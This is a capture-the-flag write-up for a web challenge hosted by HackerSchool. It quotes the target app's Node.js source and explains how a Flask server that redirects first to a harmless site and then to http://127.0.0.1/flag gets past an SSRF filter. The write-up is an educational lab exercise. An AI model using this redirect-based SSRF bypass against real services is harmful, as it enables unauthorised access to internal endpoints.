




This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).


## Challenge statement

Being a web challenge, a website is provided in the statement, alongside the application's source code and a Dockerfile.



The website asks for two links, and after clicking "Go!", displays a diff between the two pages.



In the source code we can find the following endpoints for the application:

```javascript
app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Inválido formato'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});
```

From this snippet, it is clear that the objective of the challenge is to somehow get a request to the `/flag` endpoint coming from **localhost**.
This can be achieved by tricking the web server into perform that request through an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability.

## Working the problem

At first it may seem that simply placing "localhost" on one of the main page's inputs, would display the flag in the diff.
However, when attempting that strategy, the server sends back this response:



This is due to the `validifyURL` function, also provided in the source code:

```javascript
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

There is an SSRF filter implemented, which blocks any requested directed to itself. Providing the public IP also doesn't work.
The solution is to somehow provide a link that passes the SSRF filter, but still makes a call to localhost when performing the diff.
Note that the response from the SSRF filter is ignored.
This means that the application must make another request in order to perform the diff, as is confirmed in the `diffURLs` function.

```javascript
async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};
```

## Solution

By providing a link to a controlled server, it is possible to redirect the SSRF filter's request to a valid URL and then redirect the next request to localhost.
A way to achieve this is through a simple [Flask](https://flask.palletsprojects.com/en/2.1.x/) application:

```python
from flask import Flask, redirect, g


app = Flask(__name__)

local = False

@app.route('/')
def index():
    global local
    if not local:
        local = True
        return redirect("https://github.com")
    else:
        return redirect("http://127.0.0.1/flag")


app.run('0.0.0.0', 5000)
```

Providing this web server's link to the site will display the flag on the page.


**NOTE**: with this implementation, only one of the links can point to the flask application



